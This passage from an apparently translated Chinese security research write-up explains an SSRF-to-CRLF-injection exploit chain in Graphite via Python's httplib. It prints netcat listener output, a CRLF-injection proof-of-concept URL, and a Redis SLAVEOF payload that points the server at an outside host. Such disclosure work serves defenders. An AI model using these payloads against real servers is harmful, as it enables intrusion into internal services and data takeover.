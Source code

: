 
```
$ nc -vvlp 12345
...
 
GET /foo HTTP/1.1
Host: orange.tw:12345
Accept-Encoding: identity
```

现在我们已经成功地将这个基于POST的SSRF改成了基于GET的SSRF了。但是，我们还是没办法利用这个漏洞去做任何事情。所以我们还得继续努力…

<br>

**第三个漏洞-Python中的CRLF注入**

你可以从Graphite的源码中看到，Graphite使用了Python的httplib.HTTPConnection来获取资源。在进行了一番研究之后，我发现在httplib.HTTPConnection竟然存在一个CR-LF命令注入漏洞。因此，我们就可以在HTTP协议中嵌入恶意的Payload了。

CR-LF注入PoC：



```
http://0:8000/composer/send_email?
to=orange@nogg&amp;
url=http://127.0.0.1:12345/%0D%0Ai_am_payload%0D%0AFoo:
 
$ nc -vvlp 12345
...
 
GET /
i_am_payload
Foo: HTTP/1.1
Host: 127.0.0.1:12345
Accept-Encoding: identity
```

虽然这看起来我们貌似只前进了一小步，但对于整个漏洞利用链来说却是非常大的进步。现在，我已经可以在这个SSRF漏洞执行链中引入其他的协议了。比如说，如果我想对其中的Redis动手，我们就可以尝试使用下列Payload：



```
http://0:8000/composer/send_email?
to=orange@nogg&amp;
url=http://127.0.0.1:6379/%0ASLAVEOF%20orange.tw%206379%0A
```

注:Redis的slaveof命令可以允许我们使用带外数据，当你用户到某些Blind-SSRF时这种技巧是非常实用的。

不过，在可利用的协议方面还是存在有很多的限制：

1.像SSH、MySQL和SSL这种需要进行握手的协议将会失效；

2.由于Python2的原因，我们在第二个SSRF中所使用的Payload只允许0x00到0x8F字节的数据。

顺便提一下，我们还有很多利用HTTP协议的方法。在我的演讲幻灯片中，我还演示了如何使用Linux Glibc来修改SSL协议。除此之外，你也可以参考漏洞CVE-2016-5699！如果你感兴趣的话…

<br>
